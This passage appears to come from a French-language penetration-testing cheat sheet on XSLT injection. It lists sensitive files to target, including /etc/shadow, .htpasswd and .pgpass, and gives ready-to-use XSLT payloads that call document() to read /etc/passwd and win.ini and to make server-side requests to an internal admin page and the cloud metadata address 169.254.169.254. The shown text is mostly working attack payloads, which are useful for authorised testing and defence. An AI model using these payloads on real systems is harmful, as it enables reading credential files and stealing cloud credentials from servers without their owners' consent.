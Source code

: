 **Fichiers intéressants à cibler :**

* `/etc/passwd` - Utilisateurs Linux
* `/etc/shadow` - Mots de passe hashés Linux
* `C:\Windows\win.ini` - Configuration Windows
* `.htpasswd` - Mots de passe Apache
* `.pgpass` - Credentials PostgreSQL

***

#### 🎯 Technique 2 : Lecture de fichiers avec `document()`

**Description :** La fonction `document()` peut charger des fichiers externes ou faire des requêtes SSRF.

**Payload - Lecture de fichier :**

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <html>
      <body>
        <!-- Lecture de fichier local -->
        <h3>Lecture de /etc/passwd</h3>
        <xsl:copy-of select="document('/etc/passwd')"/>
        
        <!-- Lecture Windows -->
        <h3>Lecture de win.ini</h3>
        <xsl:copy-of select="document('file:///c:/windows/win.ini')"/>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

**Payload - SSRF (Server-Side Request Forgery) :**

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <html>
      <body>
        <!-- Requête vers un serveur interne -->
        <h3>SSRF vers port interne</h3>
        <xsl:copy-of select="document('http://192.168.1.1:8080/admin')"/>
        
        <!-- Scan de port -->
        <xsl:copy-of select="document('http://169.254.169.254/latest/meta-data/')"/>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

